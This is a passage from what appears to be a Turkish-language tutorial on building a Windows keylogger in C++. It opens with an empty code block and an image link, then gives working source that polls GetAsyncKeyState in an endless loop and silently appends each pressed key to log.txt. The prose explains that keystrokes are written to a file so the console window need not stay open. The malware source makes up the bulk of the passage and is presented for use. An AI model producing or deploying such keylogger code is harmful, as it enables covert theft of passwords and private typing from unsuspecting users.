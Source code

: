 ```cpp
```
<img src="/resimler/keylogger/Key2.png">

Bunu test amaçlı yazdık, burada virtual codes bakıp, basılan tuş var ise cmd ekranına yazıyor. Tabiki biz bunu istemeyiz, o yüzden bunu bir dosyaya kaydetmemiz gerekiyor. Çünkü biz çalıştığı zaman cmd açık bıraktırmamız lazım. 

```cpp
#include <iostream>
#include <string>
#include <fstream>
#include <stdio.h>
#include <windows.h>
	
int Keylogger();

int main() {
	Keylogger();
}

int Keylogger() {
	
	char m;
	while (1) {
		for (m = 0x01; m < 0xfe; m++) {
			if(GetAsyncKeyState(m) & 0x8001 == 0x8001) {
				std::fstream kaydet;
				kaydet.open("log.txt", std::fstream::app);				
				switch(m){
					case 0x14:
						kaydet << "[CAPSLOCK]";
						break;
					default:
						kaydet << m;
						break;
					
				}
					
				
			}
						
		}
		
		
	}

}
```
